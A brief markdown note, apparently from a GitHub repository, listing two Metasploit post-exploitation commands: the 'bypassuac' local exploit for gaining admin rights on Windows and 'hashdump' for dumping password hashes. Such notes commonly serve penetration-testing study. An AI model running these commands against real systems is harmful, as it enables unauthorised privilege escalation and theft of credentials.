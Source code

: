 # Previlage escalation and Gaining Admin Previlage using MSF


```Use exploit/windows/local/bypassuac```

# Dumping password hashes

```hashdump```
